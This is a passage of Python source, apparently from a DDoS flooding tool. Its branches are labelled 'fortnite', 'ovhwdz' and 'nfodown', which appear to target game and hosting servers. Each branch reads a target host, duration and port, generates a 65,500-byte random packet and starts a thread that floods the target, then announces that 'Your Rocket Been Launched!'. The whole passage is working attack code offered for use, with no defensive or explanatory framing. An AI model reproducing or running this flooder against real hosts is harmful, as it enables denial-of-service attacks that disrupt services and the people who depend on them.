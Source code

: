 				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "fortnite":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "fortnitev2":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "ovhwdz":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "nfodown":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
